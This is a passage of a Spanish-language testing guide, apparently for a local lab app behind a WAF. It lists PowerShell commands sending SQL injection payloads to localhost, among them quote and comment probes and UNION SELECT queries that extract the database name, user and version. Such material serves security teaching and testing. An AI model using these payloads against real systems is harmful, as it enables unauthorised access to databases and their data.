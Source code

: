 ### 🎯 Método 2: Test Interactivo Completo  
**⏱️ Tiempo: 5-15 minutos**
```powershell
.\InteractiveTesting.ps1
```
**Características:**
- 📊 Menu interactivo
- 📝 Logging detallado  
- 📈 Estadísticas en tiempo real
- 🎓 Explicaciones educativas

### 🔧 Método 3: Testing Manual Individual
**⏱️ Tiempo: Variable**
- Control total sobre cada test
- Ideal para aprender técnicas específicas
- Ver sección "Comandos Manuales" abajo

---

## 💻 Comandos Manuales de Testing

### 🔍 1. Tests Básicos de Detección

```powershell
# Test de comilla simple (más común)
Invoke-WebRequest "http://localhost:3000/api/users/1'"

# Test de comentario SQL
Invoke-WebRequest "http://localhost:3000/api/users/1--"

# Test de punto y coma  
Invoke-WebRequest "http://localhost:3000/api/users/1;"
```

**¿Qué buscar?**
- ✅ Código 403 = WAF bloqueó
- 🚨 Errores de MySQL/PostgreSQL = Vulnerable
- ⚠️ Comportamiento extraño = Investigar

### 🔗 2. Union-Based SQL Injection

```powershell
# UNION básico
Invoke-WebRequest "http://localhost:3000/api/users?id=1' UNION SELECT 1,2,3--"

# UNION con NULL (más probable que funcione)
Invoke-WebRequest "http://localhost:3000/api/users?id=1' UNION SELECT null,null,null--"

# Intentar extraer información del sistema
Invoke-WebRequest "http://localhost:3000/api/users?id=1' UNION SELECT database(),user(),version()--"
```
